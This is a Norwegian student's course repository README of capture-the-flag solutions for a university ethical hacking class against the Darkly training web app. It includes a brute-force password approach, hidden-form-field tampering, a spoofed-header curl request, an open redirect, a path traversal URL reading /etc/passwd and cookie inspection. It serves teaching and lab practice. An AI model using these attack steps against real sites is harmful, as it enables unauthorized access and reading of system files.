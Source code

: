 # TTM4536-Etisk-hacking

Repo for all code som blir brukt i faget, og spesielt i forhold til flag og Darkly


Flags:
1. Bruteforce
2. Passord-recovery
3. Albatros-flag? nsa?
4. Survey (trenger flag03)
5. Redirect (trenger flag04)
6. Paths
7. Hidden
8. Whatever
9. Cookies/oreo
10. Members
11. Image
12. Image2
13. Silly
14. nsa2



# Bruteforce/Flag01

Lagde et script som kjørte 2 for løkker. Begge løkkene gikkgjennom alle passordene i filen (xato.....) og i den inerste løkken skrev den ut passordene i et passord. Så alle passordene i filen ble satt sammen med alle passordene inkludert seg selv. Det endte totalt med 998001 passord grunnet at det var 999 passord i filen siden et av passordene var blankt som scriptet ikke tok med.

Etter det kjørte jeg det default scriptet med noen små justeringer og fikk ut passordet (chicken333333) for admin.


# Flag02 - Passord recovery
Editerte html coden:
Ved å legge inn eget e-post i value i stede for den som lå der orginalt
```
<form action="#" method="POST"> 
    <input type="hidden" name="mail" value="eirikgba@stud.ntnu.no" maxlength="15"> 
    <input type="submit" name="Submit" value="Submit"> 
</form>
```


# Flag03 - Albatros/NSA flag
``` 
curl -A "61c08546b939" -e "https://www.nsa.gov/" http://129.241.200.165:19680/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
```

# Flag04 - Survey
```
http://129.241.200.165:19680/?page=survey
<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="999999">10</option>
					</select>
				</form>

```
Change the value of one of the Grades

2^Grade mod p = FLAG03 mod 2^64,
Where
p = Next_Prime(2^54)

# Flag05
Redirect the webpage til en annnen side
```
http://129.241.200.165:19680/index.php?page=redirect&site=5650cb0
```

# Flag06
Endre page, ved å gå til root og så inn i directory etc og vidre inn i passwd.
Hentet opp deller av flagget når en går bakover i fil systemet og det siste ligger i etc/passwd
```
http://129.241.200.165:19680/index.php?page=../../../../../../../etc/passwd
```


# Flag07
Flag07: dbfa4f7c46dc570fcd4b71272cdd2f2c
First tok jeg ut alle README filene
``` 
wget -m -r -nd -A "*README*" http://129.241.200.165:19680//.hidden/ 
```
Så merge alle filene sammen til en fil og åpne den filen i notepad
```
cat * > merged-file
explorer.exe .			#åpner directory i file explorer windows
```

# Flag08

# Flag09 - cookie
satoshi: 22c9b7866d7424dc4b90a03664f5136c966fb34c8edd751cfba6998fe2b5170f
```
inspect element

document.cookie
```

# Flag10

# Flag11

# Flag12

# Flag13

# Flag14

